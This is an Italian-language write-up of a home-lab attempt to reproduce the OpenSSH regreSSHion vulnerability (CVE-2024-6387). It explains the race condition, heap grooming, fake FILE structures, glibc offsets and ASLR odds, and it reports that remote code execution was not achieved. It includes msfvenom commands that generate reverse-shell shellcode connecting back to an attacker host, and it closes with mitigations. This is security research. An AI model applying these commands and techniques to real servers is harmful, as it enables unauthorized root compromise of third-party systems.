

# CVE-2024-6387: regreSSHion - Proof of Concept

**CVE:** CVE-2024-6387
**Tipo:** Race condition -> RCE non autenticato come root
**CVSS:** 8.1 (High)
**Scoperto da:** Qualys, luglio 2024
**Data attività:** 2026-03-27 / 2026-03-28
**Versione documento:** 1.0 (2026-03-29)

---

> **Disclaimer legale:** Tutte le attività documentate in questo report sono
> state condotte esclusivamente su macchine virtuali di proprietà dell'autore,
> in un ambiente home lab isolato (Proxmox VE, rete LAN privata).
> Nessun sistema esterno, pubblico o di terze parti è stato coinvolto.
> Il materiale è prodotto a scopo educativo e di ricerca sulla sicurezza informatica.

---

## Indice

- [1. Obiettivo](#1-obiettivo)
- [2. Descrizione della vulnerabilità](#2-descrizione-della-vulnerabilità)
- [3. Ambiente e strumenti](#3-ambiente-e-strumenti)
- [4. Meccanismo dell'exploit](#4-meccanismo-dellexploit)
- [5. Criteri di successo](#5-criteri-di-successo)
- [6. Risultati](#6-risultati)
- [7. Analisi: perché non riprodotto](#7-analisi-perché-non-riprodotto)
- [8. Impatto reale e mitigazioni](#8-impatto-reale-e-mitigazioni)
- [9. Struttura cartella](#9-struttura-cartella)

---

## 1. Obiettivo

Riprodurre CVE-2024-6387 in ambiente controllato per capire il meccanismo tecnico
della race condition, verificare quali sistemi sono effettivamente sfruttabili,
e documentare ogni tentativo con i problemi incontrati.

**Non** è stato usato codice exploit pubblico pronto: ogni script è scritto o
adattato dall'analisi dell'advisory Qualys, con lo scopo di capire ogni pezzo.

---

## 2. Descrizione della vulnerabilità

### Storia: una regressione

CVE-2024-6387 è una **regressione**: un bug già fixato che è tornato.

| Anno | Evento |
|------|--------|
| 2006 | CVE-2006-5051 scoperto e fixato in OpenSSH 4.4p1 |
| 2020 | Un aggiornamento OpenSSH rimuove accidentalmente il fix |
| 2024 | Qualys lo riscopre, pubblicato luglio 2024 come CVE-2024-6387 |

Per questo si chiama **regreSSHion** (da "regression").

### Causa tecnica

Il problema è`syslog()` chiamata dall'interno del signal handler `SIGALRM`.
Le funzioni in un signal handler devono essere **async-signal-safe**:
`syslog()` non lo è perché chiama internamente `malloc()`/`free()`.

```
Versione vulnerabile:
  LoginGraceTime scade -> SIGALRM -> handler -> syslog() -> malloc()
                                                             ^
                                                  Non rientrante: PERICOLOSO

Versione patchata (OpenSSH 9.8p1):
  LoginGraceTime scade -> SIGALRM -> handler -> (solo operazioni async-signal-safe)
```

Due righe di codice, impatto critico.

### Versioni affette

| Versione OpenSSH | Stato |
|---|---|
| < 4.4p1 | Vulnerabile (CVE originale 2006) |
| 4.4p1 - 8.4p1 | Non vulnerabile (fix CVE-2006-5051 presente) |
| 8.5p1 - 9.7p1 | **Vulnerabile** (fix rimosso per regressione) |
| >= 9.8p1 | Non vulnerabile (fix reintrodotto) |

**Ubuntu 22.04 (Jammy):** patchato in `1:8.9p1-3ubuntu0.10`
**Debian 12:** patchato in `1:9.2p1-2+deb12u3`

---

## 3. Ambiente e strumenti

### Macchine

| Ruolo | Macchina | OS |
|---|---|---|
| Attaccante | `cs20` (Kali Linux) | Kali Linux x86_64 |
| Vittima 1 | `cs-33hacked` (Ubuntu 22.04) | Ubuntu 22.04 LTS Jammy x86_64 |
| Vittima 2 | Debian 32-bit | Debian 12 i386 (32-bit) |

Infrastruttura: Proxmox VE home lab, rete LAN isolata.
Per dettagli specifici per vittima (banner, versioni, configurazione): vedi `attempts/`.

### Strumenti

| Strumento | Uso |
|---|---|
| Python 3 + paramiko | Scripting exploit e test handshake |
| msfvenom | Generazione shellcode |
| GCC | Compilazione exploit C |
| GDB + libc6-dbg | Indagine offset glibc sulla vittima |
| `nm -D` | Lookup simboli glibc |
| Script custom | Scanner, timing, handshake (vedi `attempts/64bit-ubuntu-22.04/scripts/`) |

---

## 4. Meccanismo dell'exploit

### La race condition

L'idea chiave è**controintuitiva**: normalmente un client cerca di autenticarsi
il prima possibile. Qui facciamo l'opposto: restiamo connessi in silenzio per
quasi 120 secondi, poi triggeriamo il crash nel momento esatto in cui sshd
riceve il segnale di timeout.

| Tempo | Attaccante | sshd (vittima) |
|-------|-----------|----------------|
| t=0s | Apre la connessione TCP. Non manda credenziali. | Avvia il countdown LoginGraceTime di 120s |
| t=0-119s | Manda pacchetti crafted per riempire la heap con il nostro shellcode (grooming) | Aspetta l'autenticazione, processa i pacchetti |
| t=119.978s | Manda il pacchetto finale, ma trattiene l'ultimo byte | Sta ancora aspettando |
| t=119.979s | Manda l'ultimo byte: `malloc()` dentro sshd parte | `malloc()` inizia ad allocare memoria |
| t=120.000s | Non fa nulla, ha già fatto tutto | SIGALRM scatta, interrompe `malloc()` a metà. `syslog()` chiama `malloc()` di nuovo su una heap corrotta: trova il nostro shellcode e lo esegue come root |



**Perché aspettiamo 120 secondi invece di autenticarci?**
Perché vogliamo che `malloc()` esegua il nostro codice, non che sshd ci accetti come utente.
Il crash controllato avviene solo se SIGALRM interrompe una `malloc()` già in esecuzione:
dobbiamo mettere il nostro shellcode nella heap _prima_ che quel momento arrivi.

### Perché malloc() esegue il nostro codice

`malloc()` non è rientrante: non può essere chiamata mentre è già in esecuzione.
Quando SIGALRM la interrompe a metà, le strutture interne della heap sono in
stato inconsistente. La seconda `malloc()` (dentro `syslog()`) legge quello stato
rotto e trova i nostri dati invece dei suoi.

```
Heap prima del grooming:  [dati sshd legittimi]
Heap dopo il grooming:    [dati sshd][FAKE FILE STRUCT + SHELLCODE][dati sshd]
                                      ^
                          malloc() corrotta legge qui ed esegue lo shellcode
```

### I tre ingredienti dell'exploit

**1. Heap grooming** - far sì che malloc() trovi la nostra struttura

Si mandano pacchetti di dimensioni precise per creare coppie di chunk alternati
(large ~4-8KB + small ~300B) nella heap di sshd. I chunk piccoli diventano le
posizioni candidate per la fake FILE struct.

**2. Fake FILE struct** - struttura crafted che redireziona il flusso di esecuzione

glibc usa strutture `FILE` con vtable di puntatori a funzione. Costruiamo una
struttura falsa con offset precisi verso glibc per fare in modo che quando
`malloc()` la processa, chiami il codice che punta al nostro shellcode.

I due offset critici:
- `_IO_wfile_jumps`: vtable legittima glibc, trovabile con `nm -D`
- `_IO_codecvt`: puntatore a struttura wide I/O, non statica in glibc moderna (vedi sezione 7)

**3. Timing preciso** - mandare il pacchetto finale ~1ms prima di SIGALRM

Il pacchetto viene mandato in due parti: tutto tranne l'ultimo byte, poi
l'ultimo byte nel momento critico. Il server sta processando il pacchetto
proprio quando SIGALRM scatta.

### Shellcode

```bash
# x86 (32-bit) - reverse shell TCP
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=4444 -f c -b "\x00"

# x86_64 (64-bit)
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=4444 -f c -b "\x00"
```

La reverse shell fa sì che il target **si connetta a noi** invece del contrario:
i firewall bloccano connessioni in entrata ma non quelle in uscita.

---

## 5. Criteri di successo

| Criterio | Descrizione |
|---|---|
| Verifica vulnerabilità | Confermare che i target hanno versioni affette |
| Handshake completo | Completare key exchange SSH correttamente |
| SIGALRM attivato | Il timeout scatta esattamente a t=120s |
| Grooming efficace | I pacchetti crafted arrivano e vengono processati |
| RCE ottenuto | Reverse shell root aperta sul listener |

**Obiettivo minimo:** i primi quattro.
**Obiettivo completo:** tutti e cinque.

---

## 6. Risultati

### Riepilogo tentativi

| Script | Architettura | Handshake | Offset `_wfile_jumps` | Offset `_codecvt` | ASLR range | Risultato |
|---|---|---|---|---|---|---|
| `exploit.py` | 64-bit Ubuntu | raw ✗ | errato | errato | ~32.768 | kex_protocol_error |
| `exploit-v1.py` | 32-bit Debian | raw ✗ | errato | errato | 2 (errati) | kex_protocol_error |
| `exploit-v2.py` | 32-bit Debian | paramiko ✓ | errato | errato | 2 (errati) | Bad packet length |
| `exploit-v3.py` | 32-bit Debian | paramiko ✓ | `0x21b740` ✓ | `0x1e6f10` ✗ | 3072 | SIGALRM OK, no RCE |
| `7etsuo-regreSSHion.c` | 32-bit Debian | raw ✗ | `0x21b740` ✓ | `0x21d7f8` ? | 2 (errati) | padding error |

*`exploit-v1.py` e `exploit-v2.py` sono stati eliminati (versioni superate da v3) - vedi sezione 9.*

Per i log completi, gli errori specifici e il lavoro su ogni vittima: vedi `attempts/`.

### Cosa abbiamo verificato

| Stato | Elemento |
|---|---|
| ✓ | Target vulnerabili confermati (scanner + banner) |
| ✓ | Key exchange SSH completato con paramiko |
| ✓ | Shellcode x86 generato e integrato |
| ✓ | SIGALRM scatta correttamente ogni 120s |
| ✓ | Pacchetti grooming cifrati arrivano al server |
| ✓ | `_IO_wfile_jumps` offset reale: `0x21b740` (verificato con `nm -D`) |
| ✓ | Struttura FILE: `_codecvt` a offset 84 (verificato con GDB + libc6-dbg) |
| ~ | `_IO_codecvt`: `0x21d7f8` preso da C exploit 7etsuo, non verificabile - non esiste come struttura statica in glibc (vedi sezione 7) |
| ✗ | RCE non ottenuto |

---

## 7. Analisi: perché non riprodotto

Per far funzionare l'exploit servono **due condizioni** risolte contemporaneamente.
Ne abbiamo risolta una sola.

### Problema 1 - Offset (parzialmente risolto)

La fake FILE struct deve puntare a indirizzi precisi dentro glibc.

| Offset | Valore trovato | Metodo | Stato |
|---|---|---|---|
| `_IO_wfile_jumps` | `0x21b740` | `nm -D /lib/i386-linux-gnu/libc.so.6` | ✓ Confermato |
| `_IO_codecvt` | - | GDB + libc6-dbg + indagine runtime | ✗ Non esiste come statica |

`_IO_codecvt` viene allocato sull'heap da `fwide()` a runtime: non ha offset
fisso dentro glibc. Il valore `0x21d7f8` degli exploit pubblici è un placeholder
errato, verificato su glibc 2.35 (Ubuntu 22.04) e glibc 2.36 (Debian 12):
in entrambi `_IO_2_1_stdin_.file._codecvt = 0x0` e `info variables _IO_codecvt`
non dà risultati.

Qualys non punta a una struttura statica: costruisce la heap tramite grooming
in modo che `_codecvt` punti a memoria controllata dall'attaccante.
Questo è il pezzo non riprodotto, e il codice funzionante Qualys non è mai
stato pubblicato (a marzo 2026, quasi 2 anni dopo il disclosure di luglio 2024).

### Problema 2 - ASLR: il vero ostacolo su sistemi moderni

| Sistema | Candidati glibc | Calcolo | Probabilità per tentativo | Media tentativi |
|---|---|---|---|---|
| Debian 3 / Ubuntu 6.06 (2006-2007) | 2 | ASLR 1 bit | 50% | 2-4 (secondi) |
| Debian 12 / Ubuntu 22.04 moderno | ~3072 | 8 bit ASLR, step 4KB: 256 x 12 = 3072 | 0.03% | 3072 x 120s = ~4 giorni |
| Ubuntu 22.04 64-bit | ~32.768 | step 2MB: 64GB spazio / 2MB = 32.768 | ~0.003% | ~10 ore (con protezioni: impossibile) |

**L'offset corretto non basta.** Il 50% era una proprietà del sistema vecchio
con ASLR quasi inesistente. Su sistemi moderni anche con gli offset giusti
la probabilità per tentativo è bassissima.

```
Offset sbagliato + ASLR moderno   ->  0%      impossibile per costruzione
Offset corretto + ASLR moderno    ->  0.03%   teoricamente possibile, praticamente no
Offset corretto + ASLR debole     ->  50%     fattibile (sistemi 2006)
```

### Cosa servirebbe per avere una probabilità ragionevole

Dopo tutti i tentativi (Python v1, v2, v3, C exploit), l'exploit "ideale" che
potrebbe avvicinarsi al 50% richiederebbe queste quattro condizioni insieme:

1. **Target vecchio** - Debian/Ubuntu 2006-2007 con ASLR a 1 bit (2 posizioni)
2. **Handshake completo** - paramiko come Python v3 (pacchetti cifrati AES)
3. **Offset `_IO_codecvt`** - valore `0x21d7f8` estratto dal C exploit 7etsuo, non confermato su glibc moderna (struttura heap-allocated, nessuna statica in glibc 2.35/2.36, vedi sezione 7)
4. **Connessioni parallele** - 100 simultanee invece di sequenziali per aumentare il throughput

Su Debian 12 moderno anche con tutte e quattro le condizioni soddisfatte:
~4 giorni medi di brute force, fail2ban blocca prima.

---

## 8. Impatto reale e mitigazioni

### Chi era davvero a rischio nel 2024

A luglio 2024 circa **14 milioni** di server OpenSSH vulnerabili erano esposti
su internet (fonte: Shodan). L'impatto varia molto per architettura e età del sistema.

| Scenario | Rischio |
|---|---|
| Server 32-bit con sistema vecchio (2006-2010) | Alto: ASLR debole, exploit in minuti |
| Server 64-bit senza protezioni | Medio: ~45 giorni sequenziale (~10 ore con 100+ connessioni parallele), rumoroso |
| Server 64-bit con fail2ban + IDS | Basso: bloccato in minuti |
| Attaccante con accesso interno (privilege esc.) | Alto: legge `/proc/self/maps`, un solo tentativo |

### Protezioni che rendono l'exploit inattuabile

| Protezione | Effetto |
|---|---|
| `fail2ban` | Blocca l'IP dopo 5-10 tentativi, in minuti |
| IDS/SIEM | Rileva migliaia di connessioni anomale, alert immediato |
| Rate limiting firewall | Rallenta il brute force degli indirizzi ASLR |
| `MaxStartups 10:30:10` | Limita connessioni non autenticate simultanee |

### Mitigazione immediata (senza aggiornare OpenSSH)

```bash
# Elimina la finestra di race: senza LoginGraceTime SIGALRM non scatta mai
echo "LoginGraceTime 0" >> /etc/ssh/sshd_config
systemctl restart ssh
```

### Fix definitivo

Aggiornare OpenSSH a 9.8p1 o alla versione patchata della propria distro.
La patch rimuove `syslog()` dal signal handler e usa solo operazioni async-signal-safe.

---

## 9. Struttura cartella

```
hacking-cs33-openssh-8.9p1-CVE-2024-6387/
├── README.md                          <- questo file (PoC overview)
└── attempts/                          <- tentativi documentati per vittima
    ├── 64bit-ubuntu-22.04/            <- Ubuntu 22.04 x86_64
    │   ├── notes.md                   <- log, errori, osservazioni
    │   └── scripts/                   <- strumenti di ricognizione
    │       ├── scanner.py             <- banner grab e verifica vulnerabilita'
    │       ├── timing.py              <- misura latenza e race window
    │       ├── handshake.py           <- test key exchange SSH
    │       └── exploit.py             <- exploit 64-bit (incompleto)
    ├── 32bit-debian-12/               <- Debian 12 i386 (target principale)
    │   ├── notes.md                   <- log, errori, osservazioni
    │   ├── exploit-v3.py              <- v3: paramiko + RSA blob + keepalive (ultima versione)
    │   └── find_codecvt.c             <- indagine offset _IO_codecvt
    └── 32bit-debian-12-c/             <- C exploit da repo pubblica
        ├── notes.md                   <- log, errori, osservazioni
        └── 7etsuo-regreSSHion.c
```

### File eliminati

`exploit-v1.py` e `exploit-v2.py` (32bit-debian-12/) sono stati eliminati: versioni
intermedie superate da v3, non utili come riferimento standalone.
Le differenze rispetto a v3 sono documentate in `attempts/32bit-debian-12/notes.md`.

`CVE-2024-6387.py` (32bit-debian-12-c/) è stato eliminato: utile solo come scanner,
funzione già coperta da `scanner.py`. Il file originale è disponibile su GitHub:
https://github.com/Karmakstylez/CVE-2024-6387/blob/production/CVE-2024-6387.py
L'analisi completa del codice rimane documentata in `attempts/32bit-debian-12-c/notes.md`.
